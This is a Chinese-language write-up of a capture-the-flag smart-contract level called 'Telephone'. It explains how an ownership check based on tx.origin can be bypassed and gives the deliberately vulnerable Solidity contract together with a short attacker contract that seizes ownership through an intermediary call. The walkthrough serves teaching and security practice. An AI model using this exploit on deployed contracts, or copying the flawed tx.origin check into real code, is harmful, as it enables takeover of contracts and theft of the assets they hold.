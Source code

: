 ### Telephone

在這個關卡中，我們的目標是取得 `Telephone` 合約的所有權。
這個合約的 `changeOwner` 函數中有一個條件限制，只有在 `tx.origin` 不等於 `msg.sender` 的情況下，才能更改合約的所有者。這裡的 `tx.origin` 是最初發送交易的外部帳戶地址，而 `msg.sender` 則是直接調用合約的地址，可以是外部帳戶或其他合約。

### 合約

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

這個合約的邏輯很簡單，在 `changeOwner` 函數中，只有當 `tx.origin` 不等於 `msg.sender` 時，才能更改所有者。因此，如果你直接從外部帳戶調用 `changeOwner`，這個條件是不會通過的。但是，如果我們通過一個合約來調用 `changeOwner`，那麼 `msg.sender` 就會是那個合約的地址，而 `tx.origin` 還是最初發起交易的外部帳戶地址，這樣就能通過條件檢查。

### Attack

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttacker {

    address public challengeInstance;

    constructor(address _challengeInstance) {
        challengeInstance = _challengeInstance;
    }

    function attack() external {
        Telephone(challengeInstance).changeOwner(msg.sender);
    }
}
```

我們只需要讓 `TelephoneAttacker` 合約來呼叫 `Telephone` 合約的 `changeOwner` 函數。由於 `msg.sender` 在這個過程中會變成 `TelephoneAttacker` 合約的地址，而 `tx.origin` 是最初的外部帳戶地址，因此可以成功通過 `tx.origin != msg.sender` 的條件檢查，並將 `Telephone` 合約的所有權轉移到我們的地址。
